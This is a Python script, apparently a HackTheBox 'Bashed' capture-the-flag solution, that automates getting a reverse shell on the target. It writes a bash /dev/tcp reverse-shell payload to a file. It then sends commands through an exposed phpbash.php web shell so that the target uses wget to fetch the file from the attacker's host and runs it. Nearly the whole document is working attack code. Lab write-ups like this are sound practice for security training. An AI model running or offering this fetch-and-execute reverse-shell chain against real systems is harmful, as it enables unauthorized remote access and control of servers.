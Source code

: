 ```py
def createPayload(lhost,lport):
    print("[+] Let's creat the shell.sh file !! [+]")
    payload = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    f = open("shell.sh", "w")
    f.write(payload)
    f.close()
    print("[+] File Created !!! [+]")

# Download the sh file to the server
def DownloadFile(rhost,lhost,lport):
    print("[+] Let's download the file to the server !! [+]")
    url = "http://%s:80/dev/phpbash.php" %rhost
    headers = {"Content-type": "application/x-www-form-urlencoded"}
    data = {"cmd": "cd /var/www/html/dev; /usr/bin/wget %s/shell.sh -O /tmp/shell.sh" %lhost}
    r.post(url, headers=headers, data=data, proxies=proxies)
    print("[+] File Downloaded !! [+]")
    
# Get the reverse shell
def GetReverseShell(rhost):
    print("[+] Enjoy your shell !!!! [+]")
    os.system("rm shell.sh")
    url = "http://%s:80/dev/phpbash.php" %rhost
    headers = {"Content-type": "application/x-www-form-urlencoded"}
    data = {"cmd": "cd /var/www/html/dev; /bin/bash /tmp/shell.sh"}
    r.post(url, headers=headers, data=data, proxies=proxies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser(description='HackTheBox Bashed AutoShell - 0x4rt3mis')
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the shell', required=True)
    
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Set up the web python server
    webServer()
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Create the shell.sh file
    createPayload(lhost,lport)
    # Download the shell.sh to the server
    DownloadFile(rhost,lhost,lport)
    # Get the reverse
    GetReverseShell(rhost)

if __name__ == '__main__':
    main()
```
